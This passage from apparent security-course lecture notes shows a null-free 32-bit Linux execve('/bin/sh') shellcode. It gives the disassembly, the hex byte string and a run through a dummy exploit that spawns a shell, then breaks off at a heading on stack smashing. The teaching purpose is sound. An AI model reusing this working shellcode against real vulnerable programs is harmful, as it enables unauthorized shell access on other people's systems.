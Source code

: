 And if we now look at the objdump, there is not a NULL to be found:

``` {.example}
user@si485H-base:demo$ objdump -d -M intel execve_nonull

execve_nonull:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   eb 17                   jmp    8048079 <callback>

08048062 <dowork>:
 8048062:   5e                      pop    esi
 8048063:   31 c0                   xor    eax,eax
 8048065:   50                      push   eax
 8048066:   56                      push   esi
 8048067:   31 d2                   xor    edx,edx
 8048069:   89 e1                   mov    ecx,esp
 804806b:   89 f3                   mov    ebx,esi
 804806d:   b0 0b                   mov    al,0xb
 804806f:   cd 80                   int    0x80
 8048071:   31 db                   xor    ebx,ebx
 8048073:   31 c0                   xor    eax,eax
 8048075:   b0 01                   mov    al,0x1
 8048077:   cd 80                   int    0x80

08048079 <callback>:
 8048079:   e8 e4 ff ff ff          call   8048062 <dowork>
 804807e:   2f                      das    
 804807f:   62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 8048082:   2f                      das    
 8048083:   73 68                   jae    80480ed <callback+0x74>
    ...
```

Finally, we can use our shell code in the dummy exploit with success:

``` {.example}
user@si485H-base:demo$ ./hexify.sh execve_nonull
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ ./dummy_exploit $(printf "\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
$ 
```

Stack Smashing with Shell Code
==============================

Failed Attempt 1
----------------
